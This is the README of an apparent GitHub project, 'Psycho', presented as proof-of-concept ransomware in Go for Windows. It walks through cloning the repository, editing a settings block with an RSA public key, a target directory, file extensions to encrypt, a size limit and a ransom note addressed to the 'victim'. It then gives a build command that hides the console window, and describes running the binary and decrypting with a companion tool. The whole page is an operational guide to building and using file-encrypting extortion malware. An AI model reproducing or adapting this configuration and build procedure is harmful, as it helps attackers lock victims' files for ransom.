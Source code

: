 # Psycho
Psycho PoC ransomware
![alt text](https://github.com/Null-byte-00/images/blob/master/Free_Sample_By_Wix.jpg?raw=true)<br>
psycho is a PoC ransomware written in go<br><br>
tested on windows 10
## possibilities:
<ul>
<li>using hybrid encryption (witch is fast and safe)</li>
<li>customize settings</li>
<li>good appearance</li>
<li>changing background picture</li>
</ul>

## requirements:
<ul>
<li>gcc (added to Path)</li>
<li>golang (you can download from here: https://golang.org/dl/)</li>
<li>fyne (golang library: http://www.fyne.io/fyne)</li>
</ul>

## to use:

### clone the repository

```
git clone https://github.com/Null-byte-00/Psycho
```

### change settings

go to Psycho/psycho/main.go and change the settings:

```golang
	/*** SETTINGS ***/
	//server rsa public key ( if you want to change this you should first generate a rsa keypair next replace it in both ransomware and decryptor programs )
	serverpubkey := "-----BEGIN PUBLIC KEY-----\nMIIBojANBgkqhkiG9w0BAQEFAAOCAY8AMIIBigKCAYEA3eWrYNmEzwLXGT0HUqqu\nkrimoiBKZE9mIzWvN51YLONneY0B8/yiLgJxg5pUOp8AEnu3gQm9uPQzbdyZniQq\n58HzSS+2Py17/UWlwqZVueUQ/RBvhH/BaEDZlKK7SUzeUqWbC0klDeLQ1nY48DEJ\nD2wNkz3CWXgDqQ0tfOqy+hRrR6ispOZc7k2SDd6cX8jkKzacH7sxBDYDVT2E/nYP\nkOBcCUW2ywN/y0FE1uqxim+axwtFW652k5ARHalmOVIXM6Oky6r4x49MN8zkIZEC\nhGDIOxQGYUEtp+0NhmAMyl26DtI23NMjyTaB7+DYtEZzSYgBllmfla1RtoEgKaHI\ns30PIUvZQGmg6VcEEhfy0hbtjDjWANkBrNewK46mH9pwH2wsYmm9QSftUjF62PbM\nLrFxoJS1w6NeYTC+s5JqGnG3sftCzGXMI+VSRvoVAWU+mm/ntQj5yww4nRq4Ylre\nJZAsLRUfT87c5uomolGitlGPIyXjxhxgPzc5egvQ199BAgMBAAE=\n-----END PUBLIC KEY-----"
	//root directory ( only files in this directory and subfolders of this directory will be encrypted )
	rootdir := "H:\\"
	//valid file extensions to encrypt ( only files with these extensions will be encrypted )
	validfileextensions := []string{"lnk" ,"pdf", "doc", "docx", "docm", "xlsx", "xlsm", "jpg", "jpeg", "png", "mp3", "mp4", "mkv", "py", "cs", "c", "cpp"}
	//valid file size to encrypt ( only files that have the same or less weight than this will be encrypted )
	//here is 400MB --> 1024 * 1024 * 400 = 419430400
	validfilesize := 419430400
	//the massage you want to show to the victim
	message := "Hi dear victim!\n"
	message += "Some of your files are encrypted now\n"
	message += "do not waste your time there is no way \nto get your files back except our decryption service"
```

### create binary file

just go to Psycho/psycho directory and run: <br>

```
go build -ldflags -H=windowsgui main.go
```

-ldflags -H=windowsgui options will hide the console window

### run the file

just click on main.exe file<br>
after some seconds desktop ppicture will change and a window like this will appear<br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychodemo.png?raw=true)<br>


and you can see that some of your files are encrypted<br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychoencrypteddemo.png?raw=true)<br>

### decrypting files

to decrypt files click on Get victimkey button. you will see a notepad window. <br>

![alt text](https://github.com/Null-byte-00/images/blob/master/psychovictimkeydemo.png?raw=true)<br>

copy this text and go to Psycho/psychodecryptor and run:<br>

```
go run decryptor.go <victim key here>
```

decryptor will give you a 32 character text like this:<br>
```
k8T2fDFkKbdBwdlnbVgxJTucm0oNBdwa
```
now enter this text in Password textbox and click on Check password button. psycho will start to decrypt your files (it can take a while)<br>
![alt text](https://github.com/Null-byte-00/images/blob/master/psychodecryptdemo.png?raw=true)<br>

Now you got your files back<br>

and you can also see tutorial video here:<br>

[![IMAGE](https://img.youtube.com/vi/a8yX7jojYBo/0.jpg)](https://www.youtube.com/watch?v=a8yX7jojYBo)

Have fun!


